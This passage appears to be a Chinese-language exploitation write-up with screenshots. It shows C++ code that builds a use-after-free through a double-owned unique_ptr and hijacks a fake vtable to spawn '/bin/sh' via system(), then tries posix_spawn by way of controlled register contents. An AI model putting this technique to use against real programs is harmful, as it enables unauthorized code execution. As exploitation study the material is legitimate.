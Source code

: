 ```c++
#include <memory>

struct TQWord{
    size_t QWord_1;
    size_t QWord_2;
    size_t QWord_3;
};

void unreachable(const char** command){
    system(*command);
}

size_t cmd = 0x0068732f6e69622f; // b"/bin/sh"

TQWord fakeVtable{cmd, 0xdeadbeef, (size_t)&unreachable};

int main(){    
    TQWord *raw_ptr = new TQWord{114, 514, 1919810};

    std::unique_ptr<TQWord> unique_ptr_1(raw_ptr);
    std::unique_ptr<TQWord> unique_ptr_2(raw_ptr);

    unique_ptr_1.reset();

    std::shared_ptr<size_t> shared_ptr = std::make_shared<size_t>(1919810);
    unique_ptr_2->QWord_1 = (size_t)&fakeVtable;
    
    return 0;
}
```
![Screenshot 2025-02-07 003143.png](https://www.helloimg.com/i/2025/02/07/67a4e27910ad2.png)

##### &emsp;&emsp;&emsp;这么个写法还是美中不足, 虚表函数的第一个参数(```rdi```)都是虚表指针(或者说地址), 导致按照上述的写法, 传给```unreachable```是```&&cmd```, 需要一次解引用<br>
##### &emsp;&emsp;&emsp;但是话又说回来, 如果虚表地址填上```cmd```, 确实不用解引用, 但是没法虚表劫持了<br>
##### &emsp;&emsp;&emsp;于是想到不用```system()```, 可以发现```rsi```指向的是```shared_ptr```指向的数据区域, 这一部分是可控的
![Screenshot 2025-02-07 120625.png](https://www.helloimg.com/i/2025/02/07/67a5b70cb4242.png)
##### &emsp;&emsp;&emsp;于是, 想到把数据改成```/bin/sh\x00```, 这样就有一个```const char*```的参数, 然后后门函数方面选择```posix_spawn```, 下面是参数表, 可以看到它的第二个参数是```path```
```c++
int posix_spawn(pid_t *restrict pid, 
                const char *restrict path,
                const posix_spawn_file_actions_t *file_actions,
                const posix_spawnattr_t *restrict attrp,
                char *const argv[restrict], char *const envp[restrict]);
```
##### &emsp;&emsp;&emsp;但是还是有问题, 函数本身对```file_actions```有检查, ```rdx```为nullptr可以绕过检查, 但调用这几个虚表函数时```rdx```都不是nullptr, 出现以下```perror```
```
posix_spawn failed: Bad file descriptor
``` 